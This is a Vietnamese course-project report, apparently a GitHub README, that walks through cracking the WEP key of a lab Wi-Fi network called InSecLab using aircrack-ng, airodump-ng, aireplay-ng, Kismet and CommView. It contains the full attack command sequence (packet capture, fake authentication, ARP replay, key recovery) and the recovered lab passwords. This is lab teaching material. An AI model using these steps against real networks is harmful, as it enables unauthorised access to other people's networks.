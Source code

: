 # Báo cáo đồ án môn học
## 1. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```sh 
 $ airodump-ng wlan0mon
```
![Thu thập thông tin wifi lân cận](images/airodump-ng.png)

Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](images/injection_test.png)

=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](images/fakeauth.png)

=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](images/solve.png)

- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 2. Sử dụng Kismet để Crack WEP

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](images/kismet/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](images/kismet/wifiinfo.png)
![alt](images/kismet/wifiinfo1.png)

- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](images/kismet/kismetIVs.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV.pcap
```

Kết quả
![alt](images/kismet/res.png)

=> Pass wifi: ***1234567890***

## 3. Sử dụng CommView để Crack WEP
Sử dụng CommView để kiểm tra các mạng wifi xung quanh
![CommViewScan](images/Commview/scan.png)

Xem thông tin của mạng wifi InSecLab
![CommViewInfo](images/Commview/info.png)

Cấu hình để CommView bắt các gói tin của AP InSecLab và lưu vào file log

Cấu hình Channel để CommView bắt gói tin
![CommViewConfig](images/Commview/config1.png)

Cấu hình nơi lưu trữ file log
![CommViewConfig](images/Commview/config2.png)

Tiến hành bắt gói tin
![CommViewCapture](images/Commview/capturepacket.png)

Chúng ta sẽ bắt đủ gói tin để thu thập đủ số IV cần thiết để crack WEP. Trong CommView, sau khi thu thập đủ số gói tin ta sẽ xem nó dưới dạng log
![CommViewLog](images/Commview/log.png)

- Tiến hành Export file log thành file pcapng

Sau đó chúng ta sẽ sử dụng lệnh sau để chuyển đổi file **pcapng** thành file **pcap**
```sh
 $ tshark -F pcap -r raw.pcapng -w CaptureIV.pcap
```
Thực hiện crack sử dụng **aircrack-ng**
```sh
 $ aircrack-ng CaptureIV.pcap
```
Vì CommView bắt các gói tin dựa trên 1 channel cụ thể (do mình chỉ định hoặc có thể bắt các gói tin trên mọi channel) nên trong gói tin **pcap** không chỉ hiển thị AP mà ta muốn Crack mà còn rất nhiều AP khác chạy cùng channel với channel của AP muốn Crack. Nên chúng ta phải chọn tên của AP muốn Crack để **aircrack-ng** thực hiện nhiệm vụ.

Kết quả sau khi chạy lệnh trên
![CommViewRes](images/Commview/res.png)

=> Mật khẩu: ***chudt***
